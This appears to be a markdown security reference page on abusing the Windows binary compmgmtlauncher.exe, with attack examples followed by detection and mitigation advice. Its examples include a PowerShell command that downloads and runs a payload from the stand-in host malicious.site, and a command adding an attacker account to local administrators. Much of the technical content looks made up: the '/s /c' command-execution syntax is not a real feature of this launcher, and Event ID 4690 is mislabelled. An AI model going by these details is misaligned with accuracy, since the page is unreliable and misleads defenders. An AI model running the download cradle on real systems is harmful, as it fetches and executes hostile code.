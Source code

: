 # compmgmtlauncher.exe
## What is it?
*```compmgmtlauncher.exe``` is a Windows system executable that opens the **Computer Management** console, a built-in administrative tool used for managing local and remote computers.*

*It is typically used to access various system tools, such as Disk Management, Event Viewer, Device Manager, and Local Users and Groups, to perform system maintenance and troubleshooting.*

*Despite being a trusted system process, ```compmgmtlauncher.exe``` can be exploited by attackers to gain unauthorized access to critical system tools, leveraging the trusted nature of the executable.*

## Legitimate Usage
- **System Administration** → Provides access to the Computer Management console for system administrators to manage system settings.
- **Disk Management** → Used to create, delete, and resize partitions or manage storage devices.
- **Event Viewer** → Access to logs for system and application events.
- **Local User Management** → Administers local user accounts and groups for security management.
- **Remote Management** → Provides administrators the ability to manage remote systems using the same tools as on a local machine.

## How to abuse it
- **Evasion via Trusted Tool** → Since ```compmgmtlauncher.exe``` is a trusted Windows binary, attackers can use it to launch other malicious processes or tools without raising suspicion.
- **Access Critical System Tools** → Attackers can gain access to powerful system tools such as Device Manager or Local Users and Groups, which could lead to privilege escalation or manipulation of user accounts.
- **Privilege Escalation** → Attackers could exploit vulnerabilities in the Computer Management tools to escalate privileges, such as adding their user account to the local administrators group.
- **Lateral Movement** → Using ```compmgmtlauncher.exe``` to connect to remote systems could allow attackers to execute arbitrary commands on those systems.

## Example attacks
### 1. Accessing Local Users and Groups for Privilege Escalation
*Attackers can use ```compmgmtlauncher.exe``` to add their user account to the local administrators group, granting themselves elevated privileges.*

**Add Attacker to Local Administrators Group**

```
compmgmtlauncher.exe /s /c "net localgroup administrators attacker /add"
```

**Effect:**
- The attacker’s account is added to the **Local Administrators group**, providing them with elevated privileges on the machine.

### 2. Evasion via Trusted Process
*Attackers can use ```compmgmtlauncher.exe``` to execute malicious code or tools, as it is a trusted process often overlooked by security tools.*

**Run Malicious Code Through Compmgmtlauncher**

```
compmgmtlauncher.exe /s /c "powershell -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"
```

**Effect:**
- Executes a PowerShell command to download and execute a malicious payload, evading detection by using a trusted system executable.

### 3. Accessing Remote Systems for Lateral Movement
*Attackers can use ```compmgmtlauncher.exe``` to remotely manage other systems, potentially installing backdoors or exfiltrating data.*

**Connect to Remote System via Computer Management**

```
compmgmtlauncher.exe /computer:\192.168.1.50
```

**Effect:**
- The attacker connects to a remote system using the **Computer Management** tool, which could allow them to execute commands or access critical system tools remotely.

### 4. Leveraging Device Manager for Lateral Movement or Data Exfiltration
*Using ```compmgmtlauncher.exe```, attackers can manipulate devices, disable security tools, or install malicious drivers for further exploitation.*

**Disable Security Tools via Device Manager**

```
compmgmtlauncher.exe /s /c "devmgmt.msc"
```

**Effect:**
- Launches **Device Manager** to disable security software or manipulate hardware components, potentially evading detection or controlling critical devices on the system.

### 5. Exploiting System Logs for Data Exfiltration
*Attackers may use ```compmgmtlauncher.exe``` to open **Event Viewer** and exfiltrate event logs or look for sensitive data.*

**Access Event Logs for Sensitive Information**

```
compmgmtlauncher.exe /s /c "eventvwr.msc"
```

**Effect:**
- Accesses **Event Viewer** to search for sensitive information or logs related to user activity, system operations, or application events.

# Detection & Mitigation
## Detection Methods
**Monitor for Unusual Executions of compmgmtlauncher.exe**
- **Event ID 4688 (Process Creation)** → Track the creation of ```compmgmtlauncher.exe``` processes, particularly those running commands or arguments that are not typical for system administration.
- **Behavioral Analysis** → Look for unusual or unexpected interactions with system tools, such as opening Device Manager or User Groups through ```compmgmtlauncher.exe```.

**Monitor Access to Critical System Tools**
- **Event ID 4690 (Scheduled Task Started)** → Track when ```compmgmtlauncher.exe``` is used to open sensitive system tools such as Event Viewer or Device Manager.
- **Event ID 4672 (Special Privileges Assigned to New Logon)** → Detect when elevated privileges are granted via tools launched by ```compmgmtlauncher.exe```.

**Monitor Remote Connections**
- **Event ID 5140 (SMB Share Access)** → Track the use of ```compmgmtlauncher.exe``` to connect to remote systems for lateral movement.

## Mitigation Strategies
- **Restrict Access to Computer Management** → Limit the use of ```compmgmtlauncher.exe``` to trusted administrators through application whitelisting tools like AppLocker or WDAC.
- **Use Endpoint Protection** → Ensure endpoint protection software is monitoring for suspicious use of trusted system tools like ```compmgmtlauncher.exe```.
- **Audit Access to Critical System Tools** → Regularly audit the use of administrative tools such as Device Manager, Event Viewer, and Local Users and Groups to detect misuse.
- **Limit Remote Access** → Restrict remote management access to trusted IP addresses or administrative accounts to prevent lateral movement.
